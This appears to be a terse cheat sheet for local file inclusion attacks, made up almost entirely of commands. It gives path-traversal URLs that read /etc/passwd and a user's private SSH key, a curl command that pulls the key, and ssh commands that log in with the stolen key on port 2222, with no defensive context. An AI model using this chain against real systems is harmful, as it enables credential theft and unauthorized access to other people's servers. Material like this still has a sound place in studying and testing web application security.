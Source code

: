 ```
https://example.com/cms/login.php?language=en.html
```

```
http://example.com/meteor/index.php?page=../../../../../../../../../etc/passwd
```

```
http://asd.com/meteor/index.php?page=../../../../../../../../../home/asd/.ssh/id_rsa
```

```
curl http://asd.com/meteor/index.php?page=../../../../../../../../../home/asd/.ssh/id_rsa
```

```
ssh -i dt_key -p 2222 asd@asd.com
```
```
chmod 400 dt_key
```
```
ssh -i dt_key -p 2222 asd@asd.com
```

### Linux -> etc/passwd
### Windows -> Logs and configurations

